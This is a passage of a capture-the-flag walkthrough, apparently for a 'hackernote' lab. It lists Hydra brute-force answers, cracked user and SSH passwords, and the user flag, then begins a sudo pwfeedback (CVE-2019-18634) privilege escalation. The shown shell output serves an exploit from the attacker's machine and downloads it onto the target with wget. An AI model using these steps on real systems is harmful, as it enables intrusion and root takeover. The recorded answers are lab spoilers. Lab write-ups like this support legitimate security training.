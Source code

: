 Form the hydra command to attack the login API route

If you're struggling with JSON, the API route also accepts form data, which is easier to use with Hydra.

 Completed


How many passwords were in your wordlist?

wc, look for number of lines

*180*

What was the user's password?

*blue7*

Login as the user to the platform

 Completed

What's the user's SSH password?

*dak4ddb37b*

Log in as the user to SSH with the credentials you have.

 Completed

What's the user flag?

*thm{56911bd7ba1371a3221478aa5c094d68}*

### Escalate

**Enumeration of privileges**

Now that you have an SSH session, you can grab the user flag. But that shouldn't be enough for you, you need root.  
A good first step for privilege escalation is seeing if you can run sudo. You have the password for the current user, so you can run the command:

sudo -l

This command tells you what commands you can run as the superuser with sudo. Unfortunately, the current user cannot run any commands as root. You may have noticed, however, that when you enter your password you see asterisks. This is not default behaviour. There was a recent CVE released that affects this configuration. The setting is called pwdfeedback.

Answer the questions below

```
james@hackernote:~$ sudo -l
[sudo] password for james: **********

**** CVE

┌──(witty㉿kali)-[~/Downloads]
└─$ cd sudo-cve-2019-18634   
                                                                                     
┌──(witty㉿kali)-[~/Downloads/sudo-cve-2019-18634]
└─$ ls
exploit  exploit.c  LICENSE  Makefile  README.md

┌──(witty㉿kali)-[~/Downloads/sudo-cve-2019-18634]
└─$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.10.247.168 - - [16/Mar/2023 14:41:29] "GET /exploit HTTP/1.1" 200 -

james@hackernote:~$ cd /tmp
james@hackernote:/tmp$ wget http://10.8.19.103:1234/exploit
--2023-03-16 18:41:31--  http://10.8.19.103:1234/exploit
```